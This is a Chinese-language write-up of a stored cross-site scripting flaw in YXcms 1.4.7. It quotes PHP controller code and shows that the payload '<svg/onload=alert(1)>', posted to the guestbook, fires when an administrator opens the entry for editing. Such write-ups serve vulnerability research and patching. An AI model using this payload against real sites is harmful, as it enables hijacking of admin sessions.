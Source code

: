 YXcms 1.4.7 储存型xss
=====================

一、漏洞简介
------------

二、漏洞影响
------------

YXcms 1.4.7

三、复现过程
------------

### 漏洞分析

前台的文件源码protected/apps/default/controller/columnController.php

    public function index()
    {
        $ename=in($_GET['col']);
        if(empty($ename)) throw new Exception('栏目名不能为空~', 404);
        $sortinfo=model('sort')->find("ename='{$ename}'",'id,name,ename,path,url,type,deep,method,tplist,keywords,description,extendid');
        $path=$sortinfo['path'].','.$sortinfo['id'];
        $deep=$sortinfo['deep']+1;
        $this->col=$ename;
        switch ($sortinfo['type']) {
            case 1://文章
                $this->newslist($sortinfo,$path,$deep);
                break;
            case 2://图集
                $this->photolist($sortinfo,$path,$deep);
                break;
            case 3://单页
                $this->page($sortinfo,$path,$deep);
                break;
            case 4://应用

                break;
            case 5://自定义

                break;
            case 6://表单
                $this->extend($sortinfo,$path,$deep);
                break;
            default:
                throw new Exception('未知的栏目类型~', 404);
                break;
        }
    }

后台的文件源码protected/apps/admin/controller/extendfieldController.php

    public function mesedit()
    {
        $tableid=intval($_GET['tabid']);
        if(!$this->checkConPower('extend',$tableid)) $this->error('您没有权限管理此独立表内容~');
        $id=intval($_GET['id']);//信息id
        if(empty($tableid) || empty($id) ) $this->error('参数错误~');
        $tableinfo = model('extend')->select("id='{$tableid}' OR pid='{$tableid}'",'id,tableinfo,name,type,defvalue','pid,norder DESC');
        if(empty($tableinfo)) $this->error('自定义表不存在~');
        if (!$this->isPost()) {
           $info=model('extend')->Extfind($tableinfo[0]['tableinfo'],"id='{$id}'");
           $this->info=$info;
           $this->tableid=$tableid;
           $this->id=$id;
           $this->tableinfo=$tableinfo;
           $this->display();
        }else{
           for($i=1;$i<count($tableinfo);$i++){
            if(is_array($_POST[$tableinfo[$i]['tableinfo']]))
              $data[$tableinfo[$i]['tableinfo']]=implode(',',$_POST[$tableinfo[$i]['tableinfo']]);
            else
              $data[$tableinfo[$i]['tableinfo']]=html_in($_POST[$tableinfo[$i]['tableinfo']]);
           }
           if(model('extend')->Extup($tableinfo[0]['tableinfo'],"id='{$id}'",$data)) $this->success('修改成功~',url('extendfield/meslist',array('id'=>$tableid)));
           else $this->error('信息修改失败~');
         }
    }

中间没什么过滤

### 复现

    http://0-sec.org/index.php?r=default/column/index&col=guestbook

payload：

    <svg/onload=alert(1)>

![](resource/YXCMS1.4.7储存型xss/media/rId26.png)

然后登陆后台，查看审核

![](resource/YXCMS1.4.7储存型xss/media/rId27.png)

点击编辑

image
